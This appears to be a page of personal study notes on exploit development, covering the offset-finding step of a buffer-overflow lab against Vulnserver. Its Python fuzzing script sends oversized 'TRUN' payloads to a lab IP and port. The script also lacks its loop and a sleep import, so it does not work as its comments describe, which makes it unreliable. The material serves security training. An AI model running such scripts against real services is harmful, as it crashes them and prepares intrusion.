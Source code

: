 
# Finding the Offset w/ Pattern Create
Now that we know our offset from [fuzzing](/PEH/buffer-overflows/fuzzing.md) the program, we can use [pattern create](/cybersecurity/tools/pattern-create.md) to help fine-tune our exploit script and payload.

**![ See Pattern Create](/cybersecurity/tools/pattern-create.md)
** (relative)
[Pattern Create](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/pattern-create.md) (GitHub repo)**
## Finding the **EXACT** Address
Now that we've created a buffer string with `pattern_create` we can copy paste our fuzzing script into a new script (which will become our exploit as we fine tune it).
```python
import sys, socket

# Create the buffer of 'A' characters
buffer = "A" * 100

try:
	# Build the payload by appending the TRUN command to the buffer
	payload = "TRUN /.:/" + buffer

	# Create, open, and connect to the socket (connecting to target)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.35',9999))

	# Send the payload to target
	print ("[+] Sending the payload...\n" + str(len(buffer)))
	s.send(payload)
	
	# Close connection and what 1 second
	s.close()
	sleep(1)

	# (if we haven't crashed) increase buffer length by 100 bytes & try again
	buffer = buffer + "A"*100
except:
	# When the target crashes, print the number of bytes it took
	print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
	sys.exit()
```

> [!Resources]
> -  [Vulnserver](https://thegreycorner.com/vulnserver.html) 
> - [Immunity Debugger](https://www.immunityinc.com/products/debugger/) 
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
> - My [writeup on basic buffer overflow](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow)
